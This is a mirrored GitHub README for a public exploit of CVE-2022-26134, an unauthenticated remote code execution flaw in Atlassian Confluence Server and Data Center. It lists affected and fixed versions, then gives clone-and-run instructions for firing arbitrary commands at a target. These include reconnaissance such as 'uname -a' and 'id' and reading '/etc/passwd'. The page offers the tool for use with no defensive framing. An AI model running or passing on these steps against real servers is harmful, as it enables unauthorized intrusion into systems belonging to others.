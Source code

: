 # CVE-2022-26134

Atlassian Confluence (CVE-2022-26134) - Unauthenticated Remote code execution (RCE)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/nxtexploit](https://github.com/nxtexploit) |
| Url      | [https://github.com/nxtexploit/CVE-2022-26134](https://github.com/nxtexploit/CVE-2022-26134)                                               |
| Stars    | 13                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* atlassian-confluence* cve-2022-26134* rce* remote-code-execution

</details>

## Readme

![Repo views](https://gpvc.arturio.dev/nxtexploit)

### CVE-2022-26134

Confluence Server and Data Center - CVE-2022-26134 - Critical severity unauthenticated remote code execution vulnerability




| Summary |CVE-2022-26134 - Critical severity unauthenticated remote code execution vulnerability <br> in Confluence Server and Data Center|
|---|---|
|Affected Products | Confluence Confluence Server Confluence Data Center|
|Affected Versions | All supported versions of Confluence Server and Data Center are affected.<br /> Confluence Server and Data Center versions after 1.3.0 are affected.|
|Fixed Versions | 7.4.17 <br /> 7.13.7 <br/> 7.14.3<br> 7.15.2<br/> 7.16.4 <br/> 7.17.4<br/> 7.18.1


### How to use:

Clone the repository :
```bash
git clone https://github.com/nxtexploit/CVE-2022-26134 ; cd CVE-2022-26134 ; pip install -r requirements.txt
```

### For executing command on vulnerable target :

```python
python3 CVE-2022-26134.py https://target.com type-command-here
python3 CVE-2022-26134.py https://target.com "uname -a"
python3 CVE-2022-26134.py https://target.com "cat /etc/passwd"
python3 CVE-2022-26134.py https://target.com  id
```

![voter-co-Trim.gif](https://i.imgur.com/6kK2VES.png)



## Get the content

```
git clone https://github.com/nxtexploit/CVE-2022-26134
cd CVE-2022-26134
```

{% embed url="https://github.com/nxtexploit/CVE-2022-26134" %}

<figure><img src="https://avatars.githubusercontent.com/u/72358603?v=4" alt=""><figcaption><p>nxtexploit</p></figcaption></figure>
